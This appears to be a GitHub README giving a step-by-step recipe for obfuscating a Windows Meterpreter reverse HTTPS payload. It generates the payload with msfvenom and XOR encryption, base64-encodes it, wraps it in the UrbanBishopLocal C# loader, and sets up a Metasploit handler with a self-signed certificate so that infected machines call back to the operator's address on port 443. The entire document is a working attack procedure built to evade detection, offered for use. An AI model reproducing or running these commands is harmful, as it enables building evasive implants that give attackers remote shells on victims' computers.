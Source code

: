 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=OurIPADRESS LPORT=443 --encrypt xor --encrypt-key helloworld --format raw > testf
```  
helloworld are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' testf
```  

### Convert data to Base64  
```sh
base64 testf > newtest
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o nameofproject
cd nameofproject
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.
#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert /home/PATH/TO/THE/example.pem (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST ourIPADRESS  
set LPORT 443  
exploit
```  
